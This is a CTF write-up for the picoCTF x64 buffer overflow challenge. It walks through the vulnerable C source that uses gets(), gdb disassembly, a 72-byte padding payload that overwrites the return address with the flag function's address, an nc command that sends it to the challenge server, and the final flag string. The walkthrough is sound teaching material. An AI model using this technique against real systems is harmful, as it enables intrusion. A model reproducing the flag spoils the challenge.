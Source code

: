 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/C12B482.png
points: 200
solves: 2473
tags: binary-exploitation x64 buffer-overflow
date: 1337-01-01
comments: false
---
```


Overflow x64 code  
Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/x64vuln). Download [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/x64vuln.c).  
`nc saturn.picoctf.net [port #]`  

---

We're given a binary ELF file and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

First things first, create a `flag.txt` file and enter whatever text you’d like so we can run the program in our local machine.  
`chmod +x vuln` to enable execution  
`gdb vuln` to enter debugger  
`disass vuln`:  
```
Dump of assembler code for function vuln:

   0x00000000004012b2 <+0>:     endbr64 
   0x00000000004012b6 <+4>:     push   %rbp
   0x00000000004012b7 <+5>:     mov    %rsp,%rbp
   0x00000000004012ba <+8>:     sub    $0x40,%rsp
   0x00000000004012be <+12>:    lea    -0x40(%rbp),%rax
   0x00000000004012c2 <+16>:    mov    %rax,%rdi
   0x00000000004012c5 <+19>:    mov    $0x0,%eax
   0x00000000004012ca <+24>:    call   0x401100 <gets@plt>
   0x00000000004012cf <+29>:    nop
   0x00000000004012d0 <+30>:    leave  
   0x00000000004012d1 <+31>:    ret
End of assembler dump.
```

   `0x00000000004012b7 <+5>:     mov    %rsp,%rbp`
This instruction makes it so that `rsp` and `rbp` point to the same address  
   `0x00000000004012ba <+8>:     sub    $0x40,%rsp`  
This instruction creates 0x40, i.e. 64, bytes of space.  

Currently, the stack looks like this:  

|Stack                  |Stack Offset   |
|:----------------------|:--------------|
|Return Address (rdi)   |0x48 - 0x56    |
|Base Pointer (rbp)     |0x40 - 0x48    |
|0x40 bytes of space    |0x0 - 0x40     |
|Stack Pointer (rsp)    |0x0            |

Given that the vuln function utilizes the gets function for input, we know we can perform a buffer overflow attack to overwrite the return address.  

Let’s dynamically confirm where the input is stored on the stack:  

`b *vuln+29` to set a breakpoint right after the call function finishes.  
`r` to run the function  
Enter whatever input you can recognize in hex form.  
`x/100x $rsp` to check the stack  
You should see something like the following in the first few rows:  

    0x7fffa44053b0: 0x61616161      0x61616161      0x00616161      0x00007fc6
    0x7fffa44053c0: 0x6777c780      0x00007fc6      0x675e3765      0x00007fc6
    0x7fffa44053d0: 0x00000000      0x00000000      0xa4405420      0x00007fff

Note that our input (I entered ‘aaaaaaaaaaa’) shows up in the beginning of the stack. Thus, our input is definitely located at `$rsp+0x0`
`disass flag`:  
```
Dump of assembler code for function flag:
   0x0000000000401236 <+0>:     endbr64 
   0x000000000040123a <+4>:     push   %rbp
   0x000000000040123b <+5>:     mov    %rsp,%rbp
   0x000000000040123e <+8>:     sub    $0x50,%rsp
   0x0000000000401242 <+12>:    lea    0xdbf(%rip),%rsi        # 0x402008
   0x0000000000401249 <+19>:    lea    0xdba(%rip),%rdi        # 0x40200a
   0x0000000000401250 <+26>:    call   0x401130 <fopen@plt>
   0x0000000000401255 <+31>:    mov    %rax,-0x8(%rbp)
   0x0000000000401259 <+35>:    cmpq   $0x0,-0x8(%rbp)
   0x000000000040125e <+40>:    jne    0x401289 <flag+83>
   0x0000000000401260 <+42>:    lea    0xdac(%rip),%rdx        # 0x402013
   0x0000000000401267 <+49>:    lea    0xdba(%rip),%rsi        # 0x402028
   0x000000000040126e <+56>:    lea    0xde8(%rip),%rdi        # 0x40205d
   0x0000000000401275 <+63>:    mov    $0x0,%eax
   0x000000000040127a <+68>:    call   0x4010e0 <printf@plt>
   0x000000000040127f <+73>:    mov    $0x0,%edi
   0x0000000000401284 <+78>:    call   0x401140 <exit@plt>
   0x0000000000401289 <+83>:    mov    -0x8(%rbp),%rdx
   0x000000000040128d <+87>:    lea    -0x50(%rbp),%rax
   0x0000000000401291 <+91>:    mov    $0x40,%esi
   0x0000000000401296 <+96>:    mov    %rax,%rdi
   0x0000000000401299 <+99>:    call   0x4010f0 <fgets@plt>
   0x000000000040129e <+104>:   lea    -0x50(%rbp),%rax
   0x00000000004012a2 <+108>:   mov    %rax,%rdi
   0x00000000004012a5 <+111>:   mov    $0x0,%eax
   0x00000000004012aa <+116>:   call   0x4010e0 <printf@plt>
   0x00000000004012af <+121>:   nop
   0x00000000004012b0 <+122>:   leave  
   0x00000000004012b1 <+123>:   ret    
End of assembler dump.
```

The important thing here is the address of the flag function, `0x0000000000401236`.  
We need to overwrite the return address, which is located at offset `$rsp+0x48`. (This is because there is 0x40 bytes of space between the stack pointer and base pointer and the base pointer itself is 0x8 bytes since this is x64).  
We can send a hex-encoded input to ./vuln to do this.  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*72)" > input
echo -ne '\x36\x12\x40\x00\x00\x00\x00\x00' >> input</code>
</pre>

The first command writes 72 ‘a’ characters to the file input for the buffer, i.e. to get to offset 0x48.  
The second part writes the hex values of the flag function address, which we cannot easily write in ascii. Note that the bytes are written in reverse order because of little endianness.  

Run ./vuln < input, which should return the contents of your `flag.txt` file.  

---

If you instead received a segmentation fault without the flag, check the second hint of the problem, which states: Jump to the second instruction (the one after the first push) in the `flag` function, if you're getting mysterious segmentation faults.  

To fix this, we need to jump to the instruction right after the first push in the `flag` function:  
`0x000000000040123b <+5>:     mov    %rsp,%rbp`  

This has address `0x000000000040123b`, so we we only need to slightly modify our commands:  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*72)" > input
echo -ne '\x3b\x12\x40\x00\x00\x00\x00\x00' >> input</code>
</pre>

Now you should get your `flag.txt` file contents.  

---

Once you receive your `flag.txt` file contents, the challenge is done!  
Run `nc -q 2 saturn.picoctf.net [port #] < input`, which will return your flag.  
Note that `-q 2` makes the connection wait 2 seconds after the EOF (end of file) before closing input, which allows us to receive the flag.  

    picoCTF{b1663r_15_b3773r_d95e02b6}
